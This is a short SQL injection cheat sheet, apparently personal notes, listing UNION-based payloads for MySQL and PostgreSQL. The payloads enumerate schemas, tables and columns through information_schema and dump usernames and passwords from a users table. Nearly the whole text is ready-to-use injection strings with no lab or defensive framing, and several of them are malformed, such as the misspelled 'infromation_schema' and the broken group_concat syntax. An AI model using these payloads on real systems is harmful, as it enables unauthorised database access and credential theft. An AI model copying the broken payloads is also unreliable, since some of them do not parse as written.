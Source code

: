 ```
 Pets' union SELECT null,column_name FROM information_schema.columns WHERE table_name = 'users'-- -
```
Selecting finally two values on the same query
```
# Pets' union select null,username||'~'||password from users--
```
This last one returns user and password

	# MYSQL,POSTGRESQL,WINDOWS  #

To watch all the databases we can use this 

```
' union select 1,schema_name from information_schema.schemata
```

If you want to limit results you can put
```
' union select 1,schema_name from information_schema.schemata limit 0,1
```
or 1,1 2,1 , 3,1 ...

if you want to see it with comas 
```
' union select 1,group_concat(schema_name from information_schema.schemata)
```

database(), user() this shows the actual database and the actual user

LIST DATABASES
```
' union select schema_name,null from infromation_schema.schemata
```

Now we are going to enumerate the tables

```
' union select table_name,null from information_schema.tables
```
LIST TABLES
```
' union select table_name,null from information_schema.tables where table_schema='public'
```
LIST  COLUMNS
```
' union select column_name,null from information_schema.columns where table_schema='DB' and table_name= 'TABLA'
```
LIST DATA [ concat() works too. ]
```
'union select NULL,group_concat(username':'password) from users-- -
```
SOMETIMES YOU MUST SPECIFY THE DATABASE THAT CONTAINS THAT DATA THAT YOURE SEARCHING (sometimes the actual database in use is another)
```
'union select NULL,group_concat(username':'password) from public.users-- -
```
